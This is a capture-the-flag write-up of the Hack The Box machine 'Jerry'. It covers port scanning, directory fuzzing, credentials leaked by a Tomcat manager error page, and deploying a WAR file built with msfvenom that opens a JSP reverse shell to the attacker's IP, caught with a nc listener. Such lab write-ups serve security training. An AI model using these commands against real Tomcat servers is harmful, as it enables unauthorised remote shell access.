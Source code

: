 ```yaml
---
title: "Jerry"
date: 2023-09-11T21:46:53+02:00
tags: [""]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A friendly linux machine which has a only http port which is vulnerable to WAR files upload. PrivEsc for this machine is not needed."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Jerry
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Jerry

![Untitled](/HTB/jerry-icon.png)

## Tools Used

- nmap
- msfvenom

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

Only one http server in port 8080 running a website powered by Apache Tomcat.

## Enumeration

![Untitled](/HTB/jerry-1.png)

The website looks like a default Apache Tomcat website.

Let’s fuzz the page

```bash
gobuster dir -u http://$IP:8080/ -w ~/Documents/wordlists/KaliLists/dirb/common.txt -x php,html,css,js,py,txt -t 100 -o fuzz | tee fuzz.save
```

```bash
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5931]
```

The manager directory called my attention, could be a potential admin page.

When I try to access to `/manager` directory a prompt with a login form is displayed so I decided to put default/common credentials.

But when I failed the first login attempt a server error is displayed but leaking the credentials

![Untitled](/HTB/jerry-2.png)

![Untitled](/HTB/jerry-3.png)

Once inside we can see a admin tool where we are able to upload WAR files.

## Exploiting

After investigating about WAR files, I found a blog talking about how to build a reverse shell for Tomcat servers.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f war -o shell.war
```

The above command builds a Java JSP reverse shell with war extension.

Now it’s time to upload and deploy the file.

![Untitled](/HTB/jerry-4.png)

A new directory is displayed now in the admin tool, let’s access to `/shell` but before we need to set a nc listener.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/jerry-5.png)

**NT / AUTHORITY SYSTEM** without privEsc, I think it is the easiest machine so far.

## Flag(s)

![Untitled](/HTB/jerry-6.png)

![Untitled](/HTB/jerry-7.png)

